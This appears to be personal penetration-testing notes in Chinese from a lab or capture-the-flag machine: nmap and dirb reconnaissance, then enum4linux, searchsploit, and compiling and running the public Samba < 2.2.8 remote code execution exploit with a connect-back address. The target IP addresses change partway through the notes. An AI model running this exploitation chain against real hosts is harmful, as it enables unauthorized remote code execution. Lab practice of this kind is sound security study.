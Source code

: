 ```yaml
---
date: 2022-07-30-星期六 15:56:04
update: 
tags: [time/year2022,time/month07]
id: 20220730155604
---
```

# 信息收集
nmap -n -sp 192.168.101.0/24
nmap -p- 192.168.101.46
![](Pasted%20image%2020220730155829.png)

# 漏洞发现
## 80：
dirb http://192.168.101.46 -X .php,.txt,.zip,.htm
test.php
## 22:
## 111:
# 139
 _enum4linux -a 172.16.92.138 > output.txt_
 _searchsploit samba 2.2_
  _cp /usr/share/exploitdb/platforms/linux/remote/10.c exploit.c_
   < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                                                 | multiple/remote/10.c
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                                                 | multiple/remote/10.c
_gcc -o samba exploit.c_
_chmod 755 samba_
 ./samba -b 0 -c 172.16.92.133 172.16.92.138



















# Quote
